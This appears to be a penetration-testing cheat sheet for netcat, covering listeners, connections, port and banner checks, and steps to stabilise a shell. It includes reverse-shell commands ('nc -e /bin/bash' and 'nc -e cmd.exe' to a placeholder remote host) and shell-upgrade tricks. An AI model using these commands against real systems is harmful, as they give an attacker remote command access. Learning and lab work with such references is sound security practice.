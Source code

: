 # Netcat - NC

## Listener

```bash
nc -nlvp <LPORT>
```

```bash
rlwrap -cAr nc -nlvp <LPORT>
```

## Connect

```bash
nc <RHOST> <RPORT>
```

Use `-e` to link the connection to a program.

```bash
nc -e /bin/bash <RHOST> <RPORT>
```

```bash
nc -e cmd.exe <RHOST> <RPORT>
```

## investigate ports

- test port

```bash
nc -zv <RHOST> <RPORT>
```

- get banner

```bash
echo "QUIT" | nc <RHOST> <RPORT>
```

- send http request

```bash
printf "GET / HTTP/1.0\r\n\r\n" | nc <RHOST> <RPORT>
```

## Stabilize Reverse Shell

```bash
python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm
Ctrl z
stty raw -echo; fg
```

or

```bash
script /dev/null -c bash
(ctrl+z)
stty raw -echo; fg
reset xterm (press Enter)
stty rows 39 columns 155 (adapt this to your stty size)
export TERM=xterm
export SHELL=bash
```

## Links

[Stabilize a reverse shell](https://tkcyber.com/index.php/2022/06/19/stabilize-a-reverse-shell/)
